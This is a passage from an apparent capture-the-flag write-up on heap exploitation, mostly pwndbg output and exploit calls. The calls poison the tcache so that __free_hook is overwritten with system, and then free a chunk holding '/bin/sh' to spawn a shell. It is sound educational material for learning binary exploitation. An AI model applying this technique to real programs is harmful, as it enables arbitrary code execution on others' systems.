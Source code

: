 ```py
pwndbg> heap 0x5ddc07101700 -s
0x5ddc07101700 | PREV_INUSE
prev_size: <junk>
size: <junk> (with flag bits: <junk>)
fd: 0x75e1a13ed8e8 # <----
bk: 0x5ddc07101010
fd_nextsize: <junk>
bk_nextsize: <junk>

pwndbg> tcachebins 
tcachebins
0x20 [  1]: 0x5ddc07101a90 ◂— 0x0
0x50 [  1]: 0x5ddc07101710 —▸ 0x75e1a13ed8e8 (__free_hook) ◂— ...
0x410 [  1]: 0x5ddc07101260 ◂— 0x0
```

Let's create yet another plan, this will use the one in the bin and so, the next one, will be our write! In this one we can put ``/bin/sh`` to "``free()``" later ;)
```py
create_plan(0x40, b"/bin/sh\x00")
```
```py
0x5ddc071016b0	0x7878787878787878	0x0000000000000080	xxxxxxxx........
0x5ddc071016c0	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc071016d0	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc071016e0	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc071016f0	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy
0x5ddc07101700	0x7979797979797979	0x7979797979797979	yyyyyyyyyyyyyyyy # New chunk
0x5ddc07101710	0x0068732f6e69622f	0x0000000000000000	/bin/sh......... # /bin/sh
0x5ddc07101720	0x7a7a7a7a7a7a7a7a	0x7a7a7a7a7a7a7a7a	zzzzzzzzzzzzzzzz
0x5ddc07101730	0x7a7a7a7a7a7a7a7a	0x7a7a7a7a7a7a7a7a	zzzzzzzzzzzzzzzz
0x5ddc07101740	0x7a7a7a7a7a7a7a7a	0x7a7a7a7a7a7a7a7a	zzzzzzzzzzzzzzzz
0x5ddc07101750	0x7a7a7a7a7a7a7a7a	0x0000000000000331	zzzzzzzz1.......	 <-- unsortedbin[all][0]
0x5ddc07101760	0x000075e1a13ebca0	0x000075e1a13ebca0	..>..u....>..u..

pwndbg> tcachebins 
tcachebins
0x20 [  1]: 0x5ddc07101a90 ◂— 0x0
0x50 [  0]: 0x75e1a13ed8e8 (__free_hook) ◂— ...
0x410 [  1]: 0x5ddc07101260 ◂— 0x0
```
Now the next call will write on the ``__free_hook()``
```py
create_plan(0x40, p64(libc.sym.system))
```
Nice!
```py
pwndbg> p __free_hook
$2 = (void (*)(void *, const void *)) 0x75e1a104f550 <__libc_system>
```

Let's finaly call the shell with a ``free``, this will run ``__free_hook()`` so running ``system()`` with our juicy ``/bin/sh``!
```
delete_plan(2)
```
And just like this we have the flag :)
